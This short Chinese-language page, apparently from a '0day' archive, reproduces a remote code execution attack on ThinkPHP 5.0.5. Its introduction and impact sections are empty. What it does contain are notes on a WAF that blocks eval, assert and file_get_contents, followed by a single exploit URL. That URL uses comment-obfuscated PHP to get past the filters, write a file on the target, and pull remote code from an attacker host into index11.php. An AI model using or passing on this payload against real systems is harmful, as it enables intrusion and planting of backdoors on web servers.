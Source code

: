 # Thinkphp 5.0.5

> 原文：[http://book.iwonder.run/0day/Thinkphp/3.html](http://book.iwonder.run/0day/Thinkphp/3.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

waf 对 eval 进行了拦截

禁止了 assert 函数对 eval 函数后面的括号进行了正则过滤

对 file_get_contents 函数后面的括号进行了正则过滤

```
http://www.0-sec.org/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=2.php&vars[1][1]=<?php /*1111*//***/file_put_contents/*1**/(/***/'index11.php'/**/,file_get_contents(/**/'https://www.hack.com/xxx.js'))/**/;/**/?> 
```

